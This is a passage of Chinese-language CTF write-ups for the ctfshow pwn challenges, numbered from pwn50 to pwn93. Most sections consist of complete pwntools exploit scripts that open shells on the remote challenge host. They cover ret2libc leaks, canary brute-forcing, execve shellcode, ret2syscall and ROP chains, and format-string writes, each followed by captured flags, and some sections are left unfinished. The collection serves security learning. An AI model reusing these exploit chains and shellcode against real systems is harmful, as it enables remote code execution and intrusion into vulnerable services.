}
```


```
-0000000000000020 var_20          db 32 dup(?)
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
```


rdi、ret：


libc选择：

```
libc6_2.27-3ubuntu1.6_amd64
```


exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28212

p = remote(ip,port)
elf = ELF('./pwn')

rdix_addr = 0x4007e3 
retx_addr = 0x4004fe


offset = b'a'* (0x20 + 0x08)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ctfshow_addr = elf.symbols['ctfshow']

payload = offset
payload += p64(rdix_addr) + p64(puts_got)
payload += p64(puts_plt) 
payload += p64(ctfshow_addr)

p.recvuntil(b'Hello CTFshow')
p.sendline(payload)

print(p.recv())
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))

libc = LibcSearcher("puts",puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

payload_exp = offset

payload_exp += p64(rdix_addr) + p64(binsh_addr)

payload_exp += p64(retx_addr) + p64(system_addr)

p.sendline(payload_exp)

p.interactive()
```


拿到flag：

```
ctfshow{c5b7d94a-39f8-4074-aa83-34be91f5132d}
```


## 51. pwn51

[CTFSHOW pwn51解题思路-CSDN博客](https://blog.csdn.net/jiopkd2/article/details/135874950)

I‘m IronMan


看到main函数的那一刻，天就塌了


但能够发现要read进一个s，然后后面有个strcpy(s,v4); 怀疑这里可以栈溢出

栈上情况：

```
-0000006C s               db ?
+00000004  r              db 4 dup(?)
```

然后strings看到cat


然后找到是这个函数有system，而且shellcode也帮我们写好了

```c
int sub_804902E()
{
  return system("cat /ctfshow_flag");
}
```


重点是那一大串的函数，可以采用运行的方式来进行

可以测出：

```
I --> IronMan
```


本地无法运行是因为缺少了相关库，直接安装即可：

```
sudo apt-get install lib32stdc++6
```


测试发现输入大写字母I，会直接编程IronMan

就是1个字符变为7个字符，而输入其他字符不会发生变化：

```
Who are you?
a
Wow!you are:a

Who are you?
I
Wow!you are:IronMan
```


所以溢出到返回函数的地方要除以7


那我们也可以静态分析

关键函数是这个：

```c
for ( i = 1; ; ++i )
    {
      v2 = sub_80496D6(v8);
      if ( v2 <= i )
        break;
      std==string==operator+=(&unk_804D0A0, "IronMan");
      v3 = sub_8049700(v8, i);
      std==string==operator+=(&unk_804D0A0, v3);
    }
```


sub_8049700函数如下：

```c
int __cdecl sub_8049700(_DWORD *a1, int a2)
{
  return *a1 + 24 * a2;
}
```


sub_80496D6函数如下：

```c
int __cdecl sub_80496D6(_DWORD *a1)
{
  return -1431655765 * ((a1[1] - *a1) >> 3);
}
```

不会分析，略过吧，哥们就是动态试出来的


那就直接构造吧，最终exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28290

p = remote(ip,port)
elf = ELF('./pwn')
offset = b'I' * int((0x6C + 0x04) / 7)
payload = offset 
payload += p32(0x0804902E)

p.recvuntil('Who are you?') 
p.sendline(payload)

p.interactive()
```


直接拿到flag：

```
ctfshow{a4f29de7-a521-4887-9069-938b944ae0bf}
```


## 52. pwn52

[ctfshow pwn52 - pwn二进制初研究](https://sunrtwang.github.io/2024/05/29/ctfshow-pwn52/)

迎面走来的flag让我如此蠢蠢欲动


还是ctfshow函数：

```c
int ctfshow()
{
  char s[104]; // [esp+Ch] [ebp-6Ch] BYREF

  gets(s);
  return puts(s);
}
```

栈上情况：

```
-0000006C s               db ?
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```


还给了一个flag函数，说实话打法应该不止一种，这边就按照他的样子来

传入两个参数


匹配成功就可以拿到flag了

```
if ( a1 == 876 && a2 == 877 )
    return (char *)printf(s);
```


32位上参数直接就在栈上了


exp：如下

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28146

p = remote(ip,port)
elf = ELF('./pwn')
offset = b'a' * (0x6C + 0x04)
flag_addr = 0x08048586

payload = offset 
payload += p32(flag_addr)
payload += p32(0)
payload += p32(876)
payload += p32(877)

p.recvuntil(b'What do you want?') 
p.sendline(payload)

p.interactive()
```


拿到flag：

```
ctfshow{ff6e206c-706f-41ee-a039-c864a3c75f2c}
```


## ==53. pwn53（Canary爆破--未完成）==

[CTFshow pwn53 wp - CH13hh - 博客园](https://www.cnblogs.com/CH13hh/p/18107421)

[ctfshow-pwn53 - pwn二进制初研究](https://sunrtwang.github.io/2024/05/29/ctfshow-pwn53/)

再多一眼看一眼就会爆炸


main函数有个新东西：

点进去看：

```python
int canary()
{
  FILE *stream; // [esp+Ch] [ebp-Ch]

  stream = fopen("/canary.txt", "r");
  if ( !stream )
  {
    puts("/canary.txt: No such file or directory.");
    exit(0);
  }
  fread(&global_canary, 1u, 4u, stream);
  return fclose(stream);
}
```


注入点还是在ctfshow函数里面


一个可控制的buf长度和buf


然后直接跳到flag函数里面就直接出结果了：


flag地址：


```
0x08048696
```


由于本地没有那个/canary.txt，所以直接远程接上去看看，连了也看不到，关键在ctfshow函数里面

分步分解：v5初始化为0，所以必然进到while循环里面

read函数参数分别是文件描述符、缓冲区指针、读取字节数，当v2[v5]==10就break掉了，就是回车键不然就直接v5加到32，就break掉了

```c
int ctfshow()
{
  int s1; // [esp+48h] [ebp-10h] BYREF
  int v5; // [esp+4Ch] [ebp-Ch]
  v5 = 0;
  s1 = global_canary;
  printf("How many bytes do you want to write to the buffer?\n>");
  while ( v5 <= 31 )
  {
    read(0, &v2[v5], 1u);
    if ( v2[v5] == 10 )
      break;
    ++v5;
  }
}
```


关键是这边模拟了一个canary的效果，只要read没有读到\n ，就可以一直写进去

将v2里面的数据以整型的格式提取给nbytes

```c
__isoc99_sscanf(v2, "%d", &nbytes);
```


将nbytes个数据写进buf里面去

```c
read(0, buf, nbytes);
```

然后后面就是比较s1和global_canary

```c
if ( memcmp(&s1, &global_canary, 4u) )
  {
    puts("Error *** Stack Smashing Detected *** : Canary Value Incorrect!");
    exit(-1);
  }
```


然后

看栈上情况：

```
-00000054 nbytes          dd ?
-00000050 v2              db 32 dup(?)
-00000030 buf             db 32 dup(?)
-00000010 s1              dd ?
-0000000C v5              dd ?
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```


这边学习到面对这种情况是要进行爆破的，意思就是程序模拟实现了一种类Canary保护，但是这个值是不变的，静态的，所以可以通过反复连接程序，一次连接覆盖一次字节，去爆破所有字节上的值，爆破出来。因为比较程序只要求比较4位，所以最外层就是4的循环


exp如下：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

Canary = b''
ip = "pwn.challenge.ctf.show"
port = 28141
elf = ELF('./pwn')

for i in range(4):

    for j in range(256):

        r = remote(ip,port)

        r.recvuntil(b'How many bytes do you want to write to the buffer?\n>')

        r.sendline(b'1000')

        payload = b'a' * 0x20 + Canary + bytes(chr(j).encode())

        r.recvuntil(b'$ ')

        r.send(payload)

        data = r.recv()

        print("data:",data)

        if b"where is the flag?" in data:

            Canary += bytes(chr(j).encode())

            print('success!')

            print(Canary)

            break

        else :
            print('false!')

            r.close()

            sleep(0.1)

print('Canary:',Canary)

r = remote(ip,port)

r.recvuntil(b'How many bytes do you want to write to the buffer?\n>')

r.sendline(b'1000')

flag_addr = 0x08048586

payload = b'a' * 0x20
payload += Canary
payload += b'a' * 0x10
payload += p32(flag_addr)

r.recvuntil(b'$ ') 

r.send(payload)

r.interactive()
```


最终爆破到的字样为：

```

```

拿到flag：

```

```


## 54. pwn54


## 55. pwn55

[ctfshow pwn入门 pwn55_ctfshow pwn50-CSDN博客](https://blog.csdn.net/jiopkd2/article/details/136099555)


## 56. pwn56（shellcode）

先了解一下简单的32位shellcode吧


感觉它出题顺序怪怪的，这时候就来了解shellcode

就给了一个start：

```c
void __noreturn start()
{
  int v0; // eax
  char v1[10]; // [esp-Ch] [ebp-Ch] BYREF
  __int16 v2; // [esp-2h] [ebp-2h]

  v2 = 0;
  strcpy(v1, "/bin///sh");
  v0 = sys_execve(v1, 0, 0);
}
```


直接exp连上去就可以了：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28172
elf = ELF('./pwn')

r = remote(ip,port)

r.interactive()
```


flag：

```
ctfshow{1272c714-9545-42ff-be79-0b9b2eca2a60}
```


## 57. pwn57

先了解一下简单的64位shellcode吧


```c
void __noreturn start()
{
  __asm { syscall; LINUX - }
}
```


exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28111
elf = ELF('./pwn')

r = remote(ip,port)

r.interactive()
```


flag：

```
ctfshow{dc7cf559-6e2a-4a1d-aa9f-edd6b160b7bf}
```


## ==58. pwn58（ret2shellcode&&32bit）==

[不负韶华](https://vvwwvv.cn/2023/10/21/pwn/刷题/ctfshow/58-68/)

32位 无限制


main反汇编不成功，直接看汇编代码


直接attach it，就是ctfshow函数


```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28116
elf = ELF('./pwn')

r = remote(ip,port)

payload = asm(shellcraft.sh())

r.sendline(payload)

r.interactive()
```


flag：

```
ctfshow{ed886c21-740f-48c8-91c3-7723aaad621f}
```


## 59. pwn59

64位 无限制


`Just very easy ret2shellcode&&64bit`

也是同样的main反汇编不了

然后ctfshow函数也是一样的打法

```c
int __fastcall ctfshow(const char *a1)
{
  gets(a1);
  return puts(a1);
}
```


还是一样的exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28168
elf = ELF('./pwn')

r = remote(ip,port)

payload = asm(shellcraft.sh())

r.sendline(payload)

r.interactive()
```


flag：

```
ctfshow{4f6c9973-61e6-4049-8fa5-323dec764829}
```


## 60. pwn60

入门难度shellcode


main函数如下：


栈上情况：

```
-00000064 s               db ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```


需要注意的是ida和实际上的执行权限、偏移量可能会有偏差，

如这道题目：


ida上的bss区不可执行，而在靶机上可以


理论偏移量应该是：

```
-00000064 s               db ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```


gdb调试发现真正的偏移量


可以发现地址

```
0x62616164
```


可以发现最终偏移量为112


exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28224
elf = ELF('./pwn')

r = remote(ip,port)

shellcode = asm(shellcraft.sh())

buf2_addr = 0x0804A080

payload = shellcode.ljust(112,b'a') + p32(buf2_addr)
r.recvuntil(b'CTFshow-pwn can u pwn me here!!')
r.sendline(payload)

r.interactive()
```


flag：

```
ctfshow{041a1b38-db5f-4137-9ccd-034ecb587b3b}
```


## 61. pwn61

输出了什么？


没啥好说的，直接看main函数


可以发现，它有打印v5的地址，直接溢出然后shellcode写到v5去

栈地址

```
-0000000000000010 var_10          dq ?
-0000000000000008 var_8           dq ?
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
```

`0x10 + 0x08` 

但是不能只这样子做，因为看汇编代码可以发现：


最后面有一个leave，说明返回之后栈上空间的数据都会发生改变，所以要返回地址要 `栈地址+32(24+ret的8字节)`


可以看到打印的v5的地址大小如下：14位

```
Welcome to CTFshow!
What's this : [0x7ffc5c6f14f0] ?
```


但是要溢出到v5外，所以再来一遍就可以了


exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28280
elf = ELF('./pwn')

r = remote(ip,port)

shellcode = asm(shellcraft.sh())

r.recvuntil(b"What's this : [")
v5=int(r.recv(14),16)

r.recvuntil("But how to use it?\n")

payload= b"a"*(0x10 + 0x08) + p64( v5 + (0x10+0x08) + 0x08 ) + shellcode

r.sendline(payload)

r.interactive()
```


flag：

```
ctfshow{52772a53-fe51-4b20-a64c-f10aec60a8c4}
```


## 62. pwn62

短了一点


main函数还是一样

但是对输入的buf进行了限制，最大长度限制为56 也就是0x38


栈上地址还是

`0x10 + 0x08`

还是照常的PIE保护开启

可以尝试，使用上一个代码进行尝试，发现发送的是0x51的长度，并不适合这种情况

我们可以单独打印一下shellcraft模块生成的sh来看一下

发现它一个就要48bytes

```
b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
48
```

所以本题不适用shellcraft模块进行


这里使用网上的shellcode，大伙可以搜集一下更多的更短的shellcode，这样后续打的时候就方便了

```
shellcode =b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
```

这里找了一个比较短的，22bytes


可以看到构造的payload总共0x37 长度   所以是可以满足的，并且这个题目出的刚刚好，限制为0x38


直接exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28196
elf = ELF('./pwn')

r = remote(ip,port)

shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"

print(shellcode)
print(len(shellcode))
r.recvuntil(b"What's this : [")
v5=int(r.recv(14),16)

r.recvuntil("But how to use it?\n")

payload= b"a"*(0x10 + 0x08) + p64( v5 + (0x10+0x08) + 0x08 ) + shellcode

r.sendline(payload)

r.interactive()
```


flag：

```
ctfshow{e42a60d7-a579-424f-90de-0ac7aff9fd4c}
```


## ==63. pwn63（64位短shellcode）==

又短了一点

还是一样的情况，这里就不放check图了，减少rongyu


ida查看main函数发现一个read，就短了0x01，限制为0x37


刚刚pwn62已经算出来payload长度为0x37，所以刚刚好，还可以用，还是一样的exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28202
elf = ELF('./pwn')

r = remote(ip,port)

shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"

print(shellcode)
print(len(shellcode))
r.recvuntil(b"What's this : [")
v5=int(r.recv(14),16)

r.recvuntil("But how to use it?\n")

payload= b"a"*(0x10 + 0x08) + p64( v5 + (0x10+0x08) + 0x08 ) + shellcode

r.sendline(payload)

r.interactive()
```


flag：

```
ctfshow{460a6455-350e-4a92-a9b0-bcf10698bbaf}
```


## 64. pwn64（mmap映射函数）

有时候开启了某种保护并不代表这条路走不通

这道题就真得贴check了


看这里开启了nx保护，防止恶意代码在数据存储区域（堆栈）中被执行


核心代码：


这里调用了一个 mmap函数 ，进行内存映射，并且其有执行权限prot为（7），将其地址给 buf，后面调用 read 函数可以写入数据到 buf，当 read>0 时就会执行 buf


所以这里直接往buf里面写shellcode就可以了


exp如下：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28300
elf = ELF('./pwn')

r = remote(ip,port)

shellcode = asm(shellcraft.sh())

r.recvuntil(b"Some different!")

payload= shellcode

r.sendline(payload)

r.interactive()
```


flag：

```
ctfshow{21afaaa9-2944-4deb-a422-13387bb685b5}
```


## ==65. pwn65（无法F5未完成）==

你是一个好人


ida反汇编不了，那就直接看汇编代码吧


## 66. pwn66


## 67. pwn67


## 68. pwn68


## 69. pwn69


## 70. pwn70


## ==71. pwn71（32位ret2syscall）==


check一下，32位开了nx


所谓的ret2syscall就是将某些寄存器设置为特殊的值，这是后会触发特殊的语句，在这里我们把对应获取shell的系统调用的参数放在相应的寄存器中，那么执行int 0x80就可以执行对应的系统调用。

如：

```
execve("/bin/sh",NULL,NULL)
```

- 系统调用号，即 eax 应该为 0xb，因为是execve所以是0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0


首先还是无限制的gets v4

栈上空间

```
-00000064                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

但是发现ida偏移量还是不太准，这里gdb调试用cyclic进行测试，发现偏移是112，也就是0x70，并不是0x64+0x04


由于是ret2syscall


所以直接找init 0x80  ，有的话可以顺带查找一下/bin/sh


可以看到

int 0x80地址为   

```
0x08049421
```

ida里面具体汇编为：


/bin/sh字符串地址为：

```
0x080be408
```


再找eax和ebx的地址传参


可以得出eax的地址为

```
0x080bb196
```


再找pop3ret1的地址：


```
0x0806eb90
```


最终exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28228
elf = ELF('./pwn')

r = remote(ip,port)

binsh=0x080be408

int80_addr=0x08049421

eax_addr=0x080bb196

pop3ret1=0x0806eb90

payload=b"a"*(0x70)+p32(eax_addr)+p32(0xb)+p32(pop3ret1)+p32(0)+p32(0)+p32(binsh)+p32(int80_addr)

r.sendline(payload)

r.interactive()
```


flag：

```
ctfshow{9bbcd2d9-657c-43cd-8d3b-0b0d965dbdd4}
```


## 72. pwn72（多系统函数）

接着练ret2syscall，多系统函数调用


还是32位，还是nx保护


main函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+10h] [ebp-20h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("CTFshow-PWN");
  puts("where is my system?");
  gets(&v4);
  puts("Emmm");
  return 0;
}
```


安全起见还是gdb算偏移量


像上一题做法一样搜索int80

发现有，

但是搜索/bin/sh字符串并没有结果，所以设想调用puts或者read来进行写


`实际中发现找到的这个int80并不可以使用，因为没有返回ret，所以无法被利用，进入ida里面找`

```
int     80h
int     80h
中间一共5个空格，一个都不能少！或者你可以直接搜索80h，一个个看吧
```


然后int 80h也是有很多的


选择

```
int80_addr = 0x0806F350
```

然后分别




pop3ret1、eax

```
pop3ret1 = 0x0806ecb0
eax_addr = 0x080bb2c6
```


ida里面查看rodata开始能够写进去的地址


```
.rodata:080BE528 aCtfshowPwn     db 'CTFshow-PWN',0      ; DATA XREF: main+53↑o
.rodata:080BE534 aWhereIsMySyste db 'where is my system?',0
```

32位系统调用号：

\#define __NR_read 3

只需要记住常用的就可以了，其他的上博客找！

read3，execve 11

所以exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28276
elf = ELF('./pwn')

r = remote(ip,port)

bss_addr = 0x080EAF85

int80_addr = 0x0806F350

eax_addr = 0x080bb2c6

pop3ret1 = 0x0806ecb0

payload=b"a"*(44)+p32(eax_addr)+p32(0x3)+p32(pop3ret1)+p32(0x100)+p32(bss_addr)+p32(0)+p32(int80_addr)
payload+=p32(eax_addr)+p32(0xb)+p32(pop3ret1)+p32(0)+p32(0)+p32(bss_addr)+p32(int80_addr)


r.sendline(payload)

r.sendline('/bin/sh\x00')
r.interactive()
```


flag：

```
ctfshow{c1c089b0-9c87-4544-a399-21c68a39a476}
```


## 73. pwn73（ROPgadget一把梭）

愉快的尝试一下一把梭吧！

check还是32位nx保护


ida打开，关键函数还是这里

```c
int show()
{
  char v1[24]; // [esp+0h] [ebp-18h] BYREF

  puts("Try to Show-hand!!");
  return gets(v1);
}
```


cyclic计算偏移量发现是：28


提示是一把梭，那我们直接ROPgadget

`ROPgadget --binary pwn --ropchain`

```
ROPgadget --binary pwn --ropchain
```

gets无限制，所以直接复制粘贴就可以了


直接exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
from struct import pack
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28288
elf = ELF('./pwn')

r = remote(ip,port)

offset = 28

p = b'a'*offset

p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b81c6) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b81c6) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049303) # xor eax, eax ; ret
p += pack('<I', 0x080549db) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de955) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806f02a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08049303) # xor eax, eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0807a86f) # inc eax ; ret
p += pack('<I', 0x0806cc25) # int 0x80

r.recvuntil(b'Try to Show-hand!!')
r.sendline(p)
r.interactive()
```


拿到flag：

```
ctfshow{0d4f0028-8d27-47b0-8097-0ed9234489ea}
```


## ==74. pwn74（one_gadget）（libc版本问题，未完成）==

噢？好像到现在为止还没有了解到one_gadget?

check一下64位，保护全开


ida打开，关键代码：

```c
printf("What's this:%p ?\n", &printf);
  __isoc99_scanf("%ld", v4);
  v4[1] = v4[0];
  ((void (*)(void))v4[0])();
```


看到最后一行，这个把v4[0]

scanf输入一个v4，可以栈溢出，但是无法执行，下面又调用个函数指针，意思就是传进去一个地址到v4[0]，它可以转换成函数进行调用，题目提示one_gadget，那就尝试用这个工具找到libc库中的execve函数的地址。再利用之前打印的printf地址计算出基址。


众所周知，one_gadget工具可以查找libc中存在execve("/bin/sh", NULL, NULL)的片段


反正流程是这样的：

ldd查看动态链接库

```
ldd pwn
```

然后复制库的路径

```
one_gadget /lib/x86_64-linux-gnu/libc.so.6
```

查询可用的execve片段即可

本题因为libc版本问题，无法解决


网上exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
from struct import pack
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28295
elf = ELF('./pwn')
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
r = remote(ip,port)

r.recvuntil(b"this:")

printf_addr = int(r.recv(14),16)

libc_base = printf_addr - libc.symbols["printf"]

execve_addr = libc_base + 0x10a2fc

payload = str(execve_addr)

r.sendline(payload)
r.interactive()
```


## 75. pwn75


## 76. pwn76


## 77. pwn77


## ==78. pwn78（64位ret2syscall）==


check64位nx开启

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v4[80]; // [rsp+0h] [rbp-50h] BYREF

  setvbuf(stdout, 0LL, 2LL, 0LL);
  setvbuf(stdin, 0LL, 1LL, 0LL);
  puts("CTFshowPWN!");
  puts("where is my system_x64?");
  gets(v4);
  puts("fuck");
  return 0;
}
```


搜索发现没有字符串/bin/sh，所以要用read来进行写入


并且查询得64位的execve的系统调用号为59


并且需要rdi、rsi、rdx传入三个参数

并且还要知道rax，总共四个寄存器的地址，那就直接ROPgadget


```
pop_rax = 0x000000000046b9f8
pop_rdi = 0x00000000004016c3
pop_rsi = 0x00000000004017d7
pop_rdx = 0x00000000004377d5
```


此外由于没有放字符串的位置，所以我们在bss区随便一个空闲位置放就可以了


这里取

```
bss_addr = 0x00000000006C1C61
```


ida搜索系统调用syscall

使用那个time的


```
syscall_ret=0x00000000045BAC5
```


cyclic计算偏移量得到offset为88


然后我们利用ioctl函数进行交互


需要传3个参数，分别是fd，cmd，arg


payload部分也是可以预料到的

从后往前看syscall系统中断，然后rdx=0，rsi=0，rdi=bss的地址，然后59系统调用号是read，rax=59，就运行read函数读取我们输入进去的值到bss地址，

就是调用read(bss_addr,0,0)

然后继续系统调用，rdx=0x10，说明调用ioctl函数，rsi=bss的值，也就是要执行的cmd，rdi=0默认，然后rax执行


最终exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
from struct import pack
import pwnlib
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28246
elf = ELF('./pwn')

# r = process('./pwn')
# pwnlib.gdb.attach(r)
r = remote(ip,port)

bss_addr=0x0000000006C1C61

syscall_ret=0x00000000045BAC5

pop_rax=0x000000000046b9f8 

pop_rdi=0x00000000004016c3

pop_rsi=0x00000000004017d7

pop_rdx=0x00000000004377d5

r.recvuntil("system_x64?\n")

payload =b"a"*(0x50+8)+p64(pop_rax)+p64(0)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss_addr)+p64(pop_rdx)+p64(0x10)+p64(syscall_ret)
payload += p64(pop_rax)+p64(59)+p64(pop_rdi)+p64(bss_addr)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(syscall_ret)
r.sendline(payload)
r.sendline("/bin/sh\x00")
r.interactive()
```


最终拿到flag：

```
ctfshow{d0b3d9dd-700e-4872-b761-862f57472b20}
```


## 79. pwn79


## 80. pwn80


## 81. pwn81


## 82. pwn82


## 83. pwn83


## 84. pwn84


## 85. pwn85


## 86. pwn86


## 87. pwn87


## 88. pwn88


## 89. pwn89


## 90. pwn90


# 格式化字符串


## 91. pwn91（经典）

开始格式化字符串了，先来个简单的吧


main函数是关键：


这里需要比较daniu的值，为6才能去shellcode


我们能操作的地方在ctfshow函数里面


那这个先看一下s的位置呗，

本地运行调试：

直接输入

```
aaaa,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x
```


a的十六进制为61，数数嘛，一个逗号一位，可以发现这里隔了7位，也就是偏移了7


然后再看daniu在bss的位置：


要把daniu设置为6，但要留4个字节作为返回函数

所以最终exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28155

p = remote(ip,port)  

# payload = p32(0x0804B038) + b"%2c%7$hhn"
payload = p32(0x0804B038) + b'aa' + b'%7$n'

p.sendline(payload)

p.interactive()
```

注意上述两种写法都可以，这里解析一下这个写法：

```python
payload = p32(0x0804B038) + b"%2c%7$hhn"
```

- `%c`是一个格式化指令，用于输出一个字符。在这里，`2`是一个宽度修饰符，表示输出的字符数量。当你使用`%2c`时，它通常会输出两个空格（因为没有指定具体的字符，默认用空格填充）。
- `$`符号用于指定参数的位置。在这里，`7`表示第 7 个参数。`h`表示短整型（通常是 16 位），`n`表示将前面已经输出的字符个数写入到指定参数所指向的内存地址。
- `%2c%7$hhn`的组合作用是先增加前面输出的字节数（2 个字节），然后将这个字节数写入到第 7 个参数所指向的内存地址（由`p32(0x804B038)`提供的地址相关内容），并且是以短整型的方式写入。


然后直接上去ls cat拿flag即可

```
ctfshow{055b829f-74a4-4cd5-851a-6231e4d01576}
```


## 92. pwn92

可能上一题没太看懂？来看下基础吧


这是一个教学关卡


输出我们可以一一比对学习一下：

```
Here is some example:
Hello CTFshow %
Hello CTFshow!
Num : 114514
Format Strings
           A
           Hello
           A
          Hello!
Strings Format
                                         \xa4
```


关键在flagishere


直接拿flag即可


```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28295

p = remote(ip,port)  

payload = b'%s'

p.sendline(payload)

p.interactive()
```


```
ctfshow{22ef7b66-6846-4a92-afd9-71ff65eb3603}
```


## 93. pwn93

emmm，再来一道基础原理？


一个主菜单选择：


菜单如下：

```c
int menu()
{
  puts("Choose an option:");
  puts("1.Crash the program");
  puts("2.Stack data breaches");
  puts("3.Arbitrary address memory leak");
  puts("4.Stack data override");
  puts("5.Arbitrary address memory override");
  return puts("6. ... ");
}
```

那就下面一个个函数去看

